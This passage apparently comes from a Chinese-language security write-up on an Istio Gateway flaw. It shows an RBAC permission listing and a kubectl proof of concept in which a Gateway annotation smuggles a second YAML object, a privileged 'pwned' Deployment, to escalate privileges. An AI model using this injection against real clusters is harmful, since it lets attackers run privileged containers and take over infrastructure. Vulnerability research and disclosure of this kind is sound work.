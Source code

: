```
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]

```

&emsp;&emsp;通过如下POC进行越权创建deployment资源

```
test@node01:~$ ./kubectl -s https://192.168.128.131:6443 --insecure-skip-tls-verify=true --token eyJhbGciO... create -f - << EOF
apiVersion: gateway.networking.k8s.io/v1alpha2
kind: Gateway
metadata:
  name: gatewaytest
  namespace: istio-test
  annotations:
    networking.istio.io/service-type: |-
      "LoadBalancer"
      apiVersion: apps/v1
      kind: Deployment
      metadata:
        name: pwned-deployment1
        namespace: istio-test
      spec:
        selector:
          matchLabels:
            app: nginx
        replicas: 1
        template:
          metadata:
            labels:
              app: nginx
          spec:
            containers:
            - name: nginx
              image: nginx
              ports:
              - containerPort: 80
              securityContext:
                privileged: true
spec:
  gatewayClassName: istio
  listeners:
  - name: default
    hostname: "*.example.com"
    port: 80
```